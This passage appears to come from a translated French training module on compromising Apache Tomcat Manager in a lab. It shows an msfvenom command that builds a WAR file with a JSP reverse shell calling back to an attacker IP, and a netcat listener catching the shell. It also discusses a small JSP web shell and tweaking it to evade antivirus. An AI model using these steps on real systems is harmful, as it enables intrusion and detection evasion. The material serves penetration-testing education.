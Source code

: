 Pour nettoyer après nous-mêmes, nous pouvons revenir à la page principale de Tomcat Manager et cliquer sur le bouton `Undeploy` à côté de l'application `backups` après, bien sûr, avoir noté le fichier et l'emplacement de téléchargement de notre rapport, qui dans notre exemple est `/opt/tomcat/apache-tomcat-10.0.10/webapps`. Si nous faisons un `ls` sur ce répertoire à partir de notre shell Web, nous verrons le fichier `backup.war` téléchargé et le répertoire `backup` contenant le script `cmd.jsp` et `META-INF` créés après le l'application se déploie. Cliquer sur `Undeploy` supprimera généralement l'archive WAR téléchargée et le répertoire associé à l'application.

Nous pourrions également utiliser `msfvenom` pour générer un fichier WAR malveillant. La charge utile [java/jsp_shell_reverse_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) exécutera un reverse shell via un fichier JSP. Accédez à la console Tomcat et déployez ce fichier. Tomcat extrait automatiquement le contenu du fichier WAR et le déploie.

```
dsgsec@htb[/htb]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

Taille de la charge utile : 1 098 octets
Taille finale du fichier war : 1098 octets

```

Démarrez un écouteur Netcat et cliquez sur `/backup` pour exécuter le shell.

```
dsgsec@htb[/htb]$ nc -lnvp 4443

écoute sur [tout] 4443 ...
se connecter à [10.10.14.15] depuis (INCONNU) [10.129.201.58] 45224

identifiant

uid=1001(tomcat) gid=1001(tomcat) groupes=1001(tomcat)

```

Le [multi/http/tomcat_mgr_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) module Metasploit peut être utilisé pour automatiser le processus illustré ci-dessus, mais nous laisserons cela comme exercice pour le lecteur.

[Ce](https://github.com/SecurityRiskAdvisors/cmd.jsp) Le shell Web JSP est très léger (moins de 1 Ko) et utilise un [Bookmarklet](https://www.freecodecamp.org/news/what-are -bookmarklets/) ou un signet de navigateur pour exécuter le code JavaScript nécessaire à la fonctionnalité du shell Web et de l'interface utilisateur. Sans cela, la navigation vers un `cmd.jsp` téléchargé n'afficherait rien. C'est une excellente option pour minimiser notre empreinte et éventuellement échapper aux détections des shells Web JSP standard (bien que le code JSP doive être légèrement modifié).

Le shell Web tel quel n'est détecté que par 2/58 fournisseurs d'antivirus.

![image](https://academy.hackthebox.com/storage/modules/113/vt2.png)

Un changement simple comme changer :

Code : java
